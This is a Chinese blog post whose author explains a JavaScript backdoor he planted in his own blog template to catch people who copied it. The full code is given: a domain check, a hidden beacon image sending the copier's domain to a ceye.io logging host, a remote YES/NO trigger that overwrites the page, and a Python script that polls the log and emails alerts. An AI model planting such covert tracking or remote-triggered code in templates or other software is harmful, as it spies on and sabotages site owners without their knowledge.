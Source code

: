 ```yaml
---
layout: post
author: Vulkey_Chen
title: "我为何在博客模板留后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


# 前言

在前段时间，我在我博客的模板上加入了后门（JavaScript），今天去除，并将思路简单的写出来。

## 为什么留后门呢？

**起因**：在前不久，团队官网模板就被偷走，很让人生气，抄袭者团队（以下简称为：A）没有打一声招呼就拿走了，但可笑的是A并没有在模板中修改JavaScript文件的外链引用，而是直接使用我们的JavaScript文件，所以简单的利用JS修改了一下其主页，提醒了下他，经过后来A主动与我联系并道歉，这件事情才结束～

让我吃惊的是，这件事之后我发现我博客主题模板被拿走了，是的，不止一个哥们。

我在我的博客项目中说明了`https://github.com/gh0stkey/gh0stkey.github.io`

> 个人博客 gh0st.cn 模版来自：https://github.com/heiswayi/the-plain 在原基础上增加了分页、网易云音乐播放器等功能（做了一些排版细节上的调整），拿之前告诉我下，谢谢！

因为博客采用的是Github Pages + Jekyll，所以需要依赖于Github的进行托管，模板也就自然而然的可以直接`git clone`下来，模板也是我进行二次修改的，我觉得起码要尊重下作者，在博客主题或项目之类的进行说明，打声招呼也行，一声不吭的拿走是几个意思......

有个好兄弟说过这样一段话，望周知：

> 参考别人的研究成果，注明来源是基本素质，每个人都应该构建一个和谐积极向上的氛围，知道的人不愿意分享的原因就是不被别人认可，互相认可才能进步，现在理解一些师傅的苦衷了，挺悲哀的。请各位在以后的学习生涯上，尊重别人的分享，认可他人，互相感染才能进步。

# 关于后门

我是一个“重度洁癖患者”，不喜欢自己的任何东西带上任何污点。包括对于在自己博客模板中加入后门，这对我来说是一件带有“大污点”的事情，所以思考了很久决定加上后门。

## 后门的构建

### JavaScript 后门

模板后门选择的是JavaScript外链引用，而JavaScript的内容构建步骤如下：

**1.判断是否是自己的域名（这个正则写的不严谨是可以被绕过的，例如：`gh0st.cn.bypass.cn`）：**

```javascript
var host = document.location.host; //获取host
var reg = new RegExp(/gh0st.cn/); //创建正则
var isok = reg.test(host); //匹配结果：False\True
if(!isok){//判断
	...code
}
```

**2.触发式：在一个Web服务上添加了isopen.txt这个文件，内容为NO则不触发，内容为YES则触发。（选择触发式的原因是因为博客上线有本地调试这一环节，如果在本地就触发了，那岂不是得不偿失，没有造成什么直接损害～）**

```javascript
var xhr = new XMLHttpRequest(); //创建XMLHttpRequest
xhr.onreadystatechange=function(){ //请求成功则触发
	if(xhr.responseText == "YES"){ //判断请求网站的内容是否是YES，如果是则进行下一步
		document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>"); //页面内容修改
	}
}
xhr.open("GET","http://webserver/isopen.txt",true); //请求http://webserver/isopen.txt
xhr.send(null);
```

**3.既然选择了触发式的后门，那么就需要知道是谁偷了模板，这里利用的是`ceye.io`这个平台去记录“小偷”的域名和IP之类的东西：**

```javascript
var img = document.createElement("img"); //创建img标签
img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host; //设置img标签的src属性
img.stytle.display="none"; //设置img标签的样式的display属性为none（表示这个将图片隐藏）
document.body.appendChild(img); //在DOM节点(body)内加入img标签
```

**4.在博客模板的header.html中引用了外部的JS地址`<script src="http://webserver/xxx.js">`**

完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/gh0st.cn/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host;
    img.stytle.display="none";
    document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>");
        }
    }
    xhr.open("GET","http://webserver/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
import smtplib,requests,json,urlparse,sys
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.163邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.163.com'
	smtpPort = '25'
	fromMail = '邮箱账户'
	toMail = '邮箱账户,收信方'
	username = '邮箱账户'
	password = '邮箱密码'
	reload(sys)
	sys.setdefaultencoding('utf8')

	subject = u'博客监控到有人偷模板！'
	body = u"[小偷信息]\nDomain: {0} IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=你的TOKEN&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
```

## 后门的运行

python脚本挂在服务器跑了一段时间，也发现了一个哥们又拿走了我的博客模板：

![oh,no](/images/2019-01-23/0.png)

让他"用"了一段时间，便将isopen.txt的内容改为了YES（即触发了后门），其后来也与我联系，并进行了和解。

# 写在最后的话

也是因为“重度洁癖”，决定将模板后门去除。望君尊重技术、分享、作者，共勉！

